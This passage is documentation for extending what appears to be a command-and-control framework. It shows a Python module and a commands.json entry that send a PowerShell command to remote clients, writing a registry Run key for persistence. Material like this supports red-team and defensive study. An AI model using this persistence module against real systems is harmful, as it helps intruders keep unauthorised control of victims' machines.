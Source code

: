 Create a Python file in your chosen category directory. Name the file after your command (e.g., `add_registry_key.py`).

```python
# commands/persistence/add_registry_key.py

def add_registry_key(client_interface, client_id, key_path=None, key_name=None, key_value=None):
    """
    Add a registry key for persistence
    
    Args:
        client_interface: Interface for sending commands to the client
        client_id: ID of the client to execute the command on
        key_path: Registry path (e.g., HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run)
        key_name: Name of the registry key
        key_value: Value to set
    """
    # Validate arguments
    if not key_path or not key_name or not key_value:
        client_interface.append_output("Error: Missing required parameters", color="#FF0000")
        client_interface.append_output("Usage: add_registry_key [key_path] [key_name] [key_value]", color="#FFCC00")
        return
    
    # Format the PowerShell command
    ps_command = f"New-ItemProperty -Path '{key_path}' -Name '{key_name}' -Value '{key_value}' -PropertyType 'String' -Force"
    
    # Log the action
    client_interface.append_output(f"Adding registry key: {key_path}\\{key_name}", color="#00FFFF")
    
    # Send the command to the client
    client_interface.send_command(client_id, "execute", ps_command)
```

### Step 3: Create or Update the commands.json File

Each category needs a `commands.json` file that defines the metadata for all commands in that category. Create or update this file:

```json
{
  "add_registry_key": {
    "function": "add_registry_key",
    "description": "Add a registry key for persistence",
    "help": "Usage: add_registry_key [key_path] [key_name] [key_value]",
    "tags": {
      "opsec_safe": false,
      "requires_admin": true,
      "windows": true,
      "linux": false,
      "powershell": true,
      "cmd": false
    }
  }
}
```
